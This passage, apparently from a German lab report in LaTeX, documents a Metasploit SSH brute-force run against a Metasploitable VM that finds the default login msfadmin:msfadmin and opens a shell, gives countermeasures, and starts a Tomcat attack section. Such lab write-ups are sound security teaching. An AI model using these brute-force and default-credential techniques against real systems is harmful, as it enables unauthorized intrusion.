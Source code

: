 \documentclass[a4paper,12pt]{article} %
\begin{document}
\begin{lstlisting}[style=code,caption={Brute-Force Angriff auf SSH},label=lst:ssh:login:run]
[*] 10.1.1.130:22 SSH - Starting bruteforce
...
[*] 10.1.1.130:22 SSH - [10/43] - Trying: username: 'administrator' with password: 'administrator'
[-] 10.1.1.130:22 SSH - [10/43] - Failed: 'administrator':'administrator'
[*] 10.1.1.130:22 SSH - [11/43] - Trying: username: 'its' with password: 'its'
[-] 10.1.1.130:22 SSH - [11/43] - Failed: 'its':'its'
[*] 10.1.1.130:22 SSH - [12/43] - Trying: username: 'msfadmin' with password: 'msfadmin'
[*] Command shell session 1 opened (10.1.1.131:36832 -> 10.1.1.130:22) at 2013-11-06 10:53:33 -0500
[+] 10.1.1.130:22 SSH - [12/43] - Success: 'msfadmin':'msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] 10.1.1.130:22 SSH - [13/43] - Trying: username: 'admin' with password: 'password'
[-] 10.1.1.130:22 SSH - [13/43] - Failed: 'admin':'password'
...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}
Auch hier wurde ein erfolgreicher Loginversuch mit msfadmin:msfadmin verzeichnet. Über diese Logindaten kann nun per SSH auf den Server verbunden werden.
\newline

\textbf{Wie kann diese Attacke verhindert werden?}
Eine Brute-Force Attacke kann nur schwer verhindert werden. Die erste und erfolgreichste Maßnahme gegen Brute-Force Attacken ist ein ausreichend langes und komplexes Passwort zu verwenden. Damit werden Attacken die keine Wörterbücher verwenden können wesentlich zeitaufwändiger. Außerdem sollten die Zugriffsrechte der jeweiligen User auf dem Server möglichst stark eingeschränkt sein damit im Falle einer Kompromittierung nicht der komplette Server kontrolliert werden kann. Weitere Gegenmaßnahmen werden in Kapitel \ref{section:gegen} erläutert.

\subsection{Tomcat}
Hierbei wird versucht analog zu den vorherigen Kapiteln die Logindaten des Tomcats zu ermitteln und anschließend eine Shell der Metasploitable über den Tomcat auf dem Rechner des Angreifers zu öffnen. Bei der Ermittlung der Logindaten des Tomcats muss beachtet werden, dass dieser nicht unter dem Standardport 8080 läuft. Im Listing \ref{lst:scan:services} aus Kapitel \ref{section:netzwerkscans} kann man erkenne, dass der Tomcat auf Port 8180 läuft. Daher muss bei der Konfiguration des Angriffs-Moduls dieser Port mit \verb!set RPORT 8180! zusätzlich angegeben werden. Nach Durchführung des Angriffs wird folgender Login ermittelt:
\end{document}
